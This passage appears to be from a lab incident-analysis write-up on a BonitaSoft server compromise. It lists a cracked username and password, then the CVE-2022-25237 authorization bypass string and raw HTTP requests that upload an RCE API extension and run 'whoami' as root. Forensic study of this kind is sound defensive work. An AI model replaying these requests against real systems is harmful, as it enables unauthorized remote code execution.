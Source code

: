 **Successful Credentials:**
```
Username: seb.broom@forela.co.uk
Password: g0vernm3nt
Timestamp: 2023-01-19 15:35:04
Response: HTTP 204 (Success)
```

### 4.2 CVE-2022-25237 Exploitation Analysis

**Vulnerability Details:**
* **CVE ID:** CVE-2022-25237
* **Component:** BonitaSoft authorization filter
* **Bypass String:** `i18ntranslation`
* **Impact:** Authentication and authorization bypass
* **Exploitation Method:** URL parameter injection

**Exploitation Sequence:**
1. **Initial Upload Request:**
   ```
   POST /bonita/API/pageUpload;i18ntranslation?action=add
   Content-Disposition: form-data; name="file"; filename="rce_api_extension.zip"
   Content-Length: 15163
   ```

2. **API Extension Registration:**
   ```
   POST /bonita/API/portal/page/;i18ntranslation
   Content-Type: application/json;charset=UTF-8
   {"contentName": "rce_api_extension.zip", "pageZip": "tmp_14830419339383496080.zip"}
   ```

3. **Extension Deployment Response:**
   ```json
   {
     "urlToken": "custompage_resourceNameRestAPI",
     "displayName": "RCE",
     "description": "REST API to manage resourceName",
     "id": "130",
     "contentType": "apiExtension"
   }
   ```

### 4.3 Remote Code Execution Analysis

* **RCE Endpoint:** `/bonita/API/extension/rce`
* **Execution Method:** GET requests with command parameters
* **Privilege Level:** Root access confirmed

**Command Execution Examples:**
1. **Identity Verification:**
   ```
   GET /bonita/API/extension/rce?p=0&c=1&cmd=whoami
   Response: {"cmd": "whoami", "out": "root\n"}
   ```
